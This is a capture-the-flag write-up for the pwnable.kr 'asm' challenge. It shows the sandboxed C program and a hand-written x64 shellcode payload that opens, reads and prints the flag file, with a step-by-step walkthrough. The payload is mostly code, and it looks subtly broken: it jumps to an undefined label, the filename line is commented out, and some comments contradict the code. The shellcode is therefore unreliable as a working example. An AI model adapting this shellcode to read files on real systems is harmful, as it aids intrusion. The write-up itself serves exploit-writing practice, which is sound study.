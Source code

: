 #pwnable.kr: ASM

Our goal is to get the `asm` binary to print our flag.

We are provided with the source code for `asm` in `asm.c`.
```c
  1 #include <stdio.h>
  2 #include <string.h>
  3 #include <stdlib.h>
  4 #include <sys/mman.h>
  5 #include <seccomp.h>
  6 #include <sys/prctl.h>
  7 #include <fcntl.h>
  8 #include <unistd.h>
  9 
 10 #define LENGTH 128
 11 
 12 void sandbox(){
 13     scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
 14     if (ctx == NULL) {
 15         printf("seccomp error\n");
 16         exit(0);
 17     }
 18 
 19     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
 20     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
 21     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
 22     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
 23     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
 24 
 25     if (seccomp_load(ctx) < 0){
 26         seccomp_release(ctx);
 27         printf("seccomp error\n");
 28         exit(0);
 29     }
 30     seccomp_release(ctx);
 31 }
 32 
 33 char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x    4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
 34 unsigned char filter[256];
 35 int main(int argc, char* argv[]){
 36 
 37     setvbuf(stdout, 0, _IONBF, 0);
 38     setvbuf(stdin, 0, _IOLBF, 0);
 39 
 40     printf("Welcome to shellcoding practice challenge.\n");
 41     printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
 42     printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
 43     printf("If this does not challenge you. you should play 'asg' challenge :)\n");
 44 
 45     char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
 46     memset(sh, 0x90, 0x1000);
 47     memcpy(sh, stub, strlen(stub));
 48 
 49     int offset = sizeof(stub);
 50     printf("give me your x64 shellcode: ");
 51     read(0, sh+offset, 1000);
 52 
 53     alarm(10);
 54     chroot("/home/asm_pwn");    // you are in chroot jail. so you can't use symlink in /tmp
 55     sandbox();
 56     ((void (*)(void))sh)();
 57     return 0;

```

Lets look into the source code.

First '0x1000' is allocated in memory.
```c
 45     char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
 46     memset(sh, 0x90, 0x1000);
 47     memcpy(sh, stub, strlen(stub));
```

Then user input (our shellcode) is read from stdin and writen into the 0x1000 memory block.
```c
 49     int offset = sizeof(stub);
 50     printf("give me your x64 shellcode: ");
 51     read(0, sh+offset, 1000);
```

We are put into a sandbox
```c
 53     alarm(10);
 54     chroot("/home/asm_pwn");    // you are in chroot jail. so you can't use symlink in /tmp
 55     sandbox();
```
And the data in memory (our shellcode) is executed.
```c
 56     ((void (*)(void))sh)();
```
Looking at the sandbox, some secure computing filters are added limiting the kernel syscalls we have access to.
```c
 19     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
 20     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
 21     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
 22     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
 23     seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
```
This limits the application to open, read, write, exit and exit_group syscalls.
This also means that our shellcode will be limited to those calls so no spawning a shell =(.

Last note, running file tells us the binary is x86_64.
```
user$ file asm
asm: ELF 64-bit LSB shared object, x86-64
```

##Writing The Shellcode
First we will write `payload.asm` program to open the flag and write it to stdout.
Then compile `payload.asm` and use objdump to extract the opcodes and we will have our shellcode.
Note this is not the most practical option as tools like pwntools.asm exist, but its fun to write and
good practice in asm.

Our `payload.asm` file:
```
;Author: Weston Silbaugh
;the asm for our shellcode payload
	section .mysec write exec alloc
	global	main

main:
	jmp		push_vars
s1:
;add null char
	xor		rax, rax
	pop		rbx
	push 		rbx
	add		bx,231
	mov		[ebx],eax
;open:
	add		al, 0x02	;sys_open
	pop		rdi		;const char *fname
	push 		rdi
	xor		rsi, rsi	;int flags
	xor		rdx, rdx	;int mode
	syscall
;read:
	mov		rdi, rax	;int fd
	xor		rax, rax	;sys_read
	pop		rsi		;buff
	push 		rsi
	add		dx, 400		;size
	syscall
;write:
	xor		eax, eax
	add 		al, 0x01	;sys_read
	xor		rdi, rdi
	add		rdi, 1		;int fd
	pop		rsi		;buff
	;mov		rdx, 128	;size
	syscall
exit:
	xor		rax, rax
	xor		rdi, rdi
	add		al, 60
	syscall
push_fname:
	call	s1
fname:
	;db "/home/nuser/ctf/progress/pwnable.kr/asm/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
nullchar:
	db "a"
```
Normally we would want to make this payload smaller but with the generous `0x1000` its good enough.

###Walkthrough of `payload.asm`:
```
	section .mysec write exec alloc
	global	main
```
I make my own secton to allow it to be set to write. Its not needed in this asm but non the less its there
```
main:
	jmp		push_vars
s1:
```
Then we jump to push_vars which pushes the file to the stack and jumps back to `s1`
```
push_fname:
	call	s1
fname:
	;db "/home/nuser/ctf/progress/pwnable.kr/asm/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
nullchar:
	db "a"
```
Since we can not reference a label for our string, a work around is required.
The call to s1 pushes the address of our string onto the stack and jumps back to s1.
The string is placed at the bottom of .mysec because if it was at the top, a near jump call would contain NULL characters.
Making our string null terminated will have the same issue so it is left as an `a` character for now and will be changed at
run time.
```
;add null char
	xor		rax, rax
	pop		rbx
	push 		rbx
	add		bx,231
	mov		[ebx],eax
```
Once we return to `s1:`, our string is null terminated.

Then the flag is opened for reading.
```
;open:
	add		al, 0x02	;sys_open
	pop		rdi		;const char *fname
	push 		rdi
	xor		rsi, rsi	;int flags
	xor		rdx, rdx	;int mode
	syscall
```
The filename string is on the stack so we simply pop it off into `RBX`

Then we read the flag
```
;read:
	mov		rdi, rax	;int fd
	xor		rax, rax	;sys_read
	pop		rsi		;buff
	push 		rsi
	add		dx, 400		;size
	syscall
```
The string holding the filename is overwriten with the contents of the flag.

And write the flags contents out to stdout.
```
;write:
	xor		eax, eax
	add 		al, 0x01	;sys_read
	xor		rdi, rdi
	add		rdi, 1		;int fd
	pop		rsi		;buff
	;mov		rdx, 128	;size
	syscall
```
The string size is still in `rdx`.

Then exit the program
```
exit:
	xor		rax, rax
	xor		rdi, rdi
	add		al, 60
	syscall
```
